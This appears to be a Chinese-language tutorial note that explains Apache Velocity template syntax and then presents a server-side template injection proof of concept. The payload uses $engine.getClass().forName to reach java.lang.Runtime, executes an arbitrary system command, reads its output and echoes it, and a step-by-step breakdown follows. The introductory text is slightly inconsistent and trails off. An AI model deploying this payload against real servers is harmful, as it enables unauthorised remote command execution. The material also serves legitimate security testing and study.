 #表示符
"#"用来标识Velocity的脚本语句，包括#set、#if 、#else、#end、#foreach、#end、#iinclude、#parse、#macro等；
如:
#if($info.imgs)
<img src="$info.imgs" border=0>
#else
<img src="noPhoto.jpg">
#end

$表示符
"$"用来标识一个对象(或理解为变量)；如
如：$i、$msg、$TagUtil.options(...)等。

{} 标识符
"{}"用来明确标识Velocity变量；
比如在页面中，页面中有一个$someonename，此时，Velocity将把someonename作为变量名，若我们程序是想在someone这个变量的后面紧接着显示name字符，则上面的标签应该改成${someone}name。

！标识符
"!"用来强制把不存在的变量显示为空白。
如当页面中包含$msg，如果msg对象有值，将显示msg的值，如果不存在msg对象同，则在页面中将显示$msg字符。这是我们不希望的，为了把不存在的变量或变量值为null的对象显示为空白，则只需要在变量名前加一个“!”号即可。
如：$!msg
我们提供了五条基本的模板脚本语句，基本上就能满足所有应用模板的要求。这四条模板语句很简单，可以直接由界面设计人员来添加。在当前很多EasyJWeb的应用实践中，我们看到，所有界面模板中归纳起来只有下面四种简单模板脚本语句即可实现：
　　 1、$!obj 　直接返回对象结果。
　　 如：在html标签中显示java对象msg的值。
     2、#if($!obj) #else #end 判断语句
　　 如：在EasyJWeb各种开源应用中，我们经常看到的用于弹出提示信息msg的例子。



```POC
#set($run=$engine.getClass().forName("java.lang.Runtime"))
#set($runtime=$run.getRuntime())
#set($proc=$runtime.exec("COMMAND"))
#set($null=$proc.waitFor())
#set($istr=$proc.getInputStream())
#set($chr=$engine.getClass().forName("java.lang.Character"))
#set($output="")
#set($string=$engine.getClass().forName("java.lang.String"))
#foreach($i in [1..$istr.available()])
#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))
#end
$output
```
流程分解
#1：获取Runtime类访问权
```velocity
#set($run=$engine.getClass().forName("java.lang.Runtime"))
```
#2：创建Runtime实例
```velocity
#set($runtime=$run.getRuntime())
```
#3：执行系统命令
```velocity
#set($proc=$runtime.exec("COMMAND"))
```
#4：同步等待执行完成
```velocity
#set($null=$proc.waitFor())
```
#5：建立输出捕获通道
```velocity
#set($istr=$proc.getInputStream())
```

#6：准备字符编码处理
```velocity
#set($chr=$engine.getClass().forName("java.lang.Character"))
#set($string=$engine.getClass().forName("java.lang.String"))
```
  - Character：字节到字符转换
  - String：字符串拼接操作

#7：循环读取命令输出
```velocity
#set($output="")
#foreach($i in [1..$istr.available()])
#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))
#end
```
#8：回显攻击结果
```velocity
$output
```
